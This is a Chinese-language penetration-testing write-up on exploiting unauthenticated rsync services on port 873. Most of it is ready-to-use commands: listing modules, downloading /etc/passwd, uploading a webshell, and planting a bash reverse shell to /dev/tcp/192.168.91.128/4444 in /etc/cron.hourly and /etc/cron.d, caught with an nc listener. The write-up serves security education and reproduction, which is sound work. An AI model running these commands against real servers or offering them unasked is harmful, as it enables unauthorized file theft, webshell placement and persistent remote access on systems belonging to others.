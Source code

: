 Rsync 未授权访问漏洞
====================

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：![1.png](./.resource/Rsync未授权访问漏洞/media/rId24.png)

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

![2.png](./.resource/Rsync未授权访问漏洞/media/rId25.png)

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

![3.png](./.resource/Rsync未授权访问漏洞/media/rId26.png)

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

![4.png](./.resource/Rsync未授权访问漏洞/media/rId27.png)

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
